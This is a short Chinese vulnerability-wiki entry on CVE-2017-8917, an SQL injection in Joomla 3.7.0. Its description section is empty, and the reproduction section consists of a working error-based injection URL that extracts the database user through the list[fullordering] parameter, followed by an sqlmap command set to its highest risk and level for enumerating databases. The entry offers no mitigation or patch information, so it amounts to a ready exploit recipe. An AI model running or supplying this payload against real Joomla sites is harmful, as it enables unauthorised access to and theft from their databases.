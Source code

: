 （CVE-2017-8917）Joomla 3.7.0 QL注入漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

Joomla 3.7.0

三、复现过程
------------

    http://www.0-sec.org:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)

![1
1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-8917)Joomla3.7.0QL注入漏洞/media/rId24.png)

### 补充

    sqlmap -u "http://www.0-sec.org/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
